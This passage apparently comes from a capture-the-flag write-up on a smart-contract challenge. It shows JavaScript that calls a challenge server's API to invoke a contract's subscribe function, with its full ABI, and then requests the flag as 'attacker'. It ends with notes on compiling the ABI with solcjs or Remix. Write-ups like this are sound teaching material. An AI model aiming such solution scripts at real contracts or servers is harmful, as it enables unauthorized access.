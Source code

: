 I have written out small pieces of code that interacts with each piece of the API. Here are just a few that are important:

```javascript
// call the subscribe function
let r = await axios.post('http://142.93.103.129:3000/call_contract', {
  address: target,
  abi: [{"constant":true,"inputs":[{"name":"id","type":"uint256"}],"name":"getSubscriber","outputs":[{"name":"subscriber","type":"address"},{"name":"subscription","type":"uint256"}],"payable":false,"stateMutability":"view","type":"function"},{"constant":false,"inputs":[],"name":"disableRegistration","outputs":[],"payable":false,"stateMutability":"nonpayable","type":"function"},{"constant":false,"inputs":[{"name":"subscriber","type":"address"},{"name":"subscription","type":"uint256"}],"name":"subscribe","outputs":[],"payable":false,"stateMutability":"nonpayable","type":"function"},{"constant":false,"inputs":[{"name":"id","type":"uint256"}],"name":"deleteRegistration","outputs":[],"payable":false,"stateMutability":"nonpayable","type":"function"},{"constant":true,"inputs":[{"name":"id","type":"uint256"}],"name":"isVIP","outputs":[{"name":"subscriber","type":"address"},{"name":"vip","type":"bool"}],"payable":false,"stateMutability":"view","type":"function"},{"constant":false,"inputs":[],"name":"enableRegistration","outputs":[],"payable":false,"stateMutability":"nonpayable","type":"function"},{"inputs":[],"payable":false,"stateMutability":"nonpayable","type":"constructor"},{"anonymous":false,"inputs":[{"indexed":false,"name":"_from","type":"address"}],"name":"EnabledRegistration","type":"event"},{"anonymous":false,"inputs":[{"indexed":false,"name":"_from","type":"address"}],"name":"DisabledRegistration","type":"event"},{"anonymous":false,"inputs":[{"indexed":false,"name":"_subscriber","type":"address"},{"indexed":false,"name":"_subscription","type":"uint256"}],"name":"newSubscription","type":"event"},{"anonymous":false,"inputs":[{"indexed":false,"name":"_id","type":"uint256"},{"indexed":false,"name":"_subscriber","type":"address"},{"indexed":false,"name":"_subscription","type":"uint256"}],"name":"subscriptionDeleted","type":"event"}],
  from: myaddr,
  password: mypass,
  func: 'subscribe',
  params: [myaddr, 0],
  value: 0,
  type: 'standard',
  gas: 2000000,
  gasPrice: 0,
});

// get the flag
r = await axios.post('http://142.93.103.129:3000/get_flag', {
  id: 1,
  target: target,
  attacker: myaddr,
  password: mypass,
});
```

One key point in the progress is to correctly compile the application binary interface (ABI) for the smart contract. You can think of ABI as the protocol that dictates how machines talk to each other, and because every smart contract is unique, each has its own ABI that is directly compiled from the solidity source code.

I used [solcjs](https://github.com/ethereum/solc-js) to compile the ABI because I am already using javascript for my program, but keep in mind that a web tool such as [Remix](https://remix.ethereum.org/) can do the job just as well.
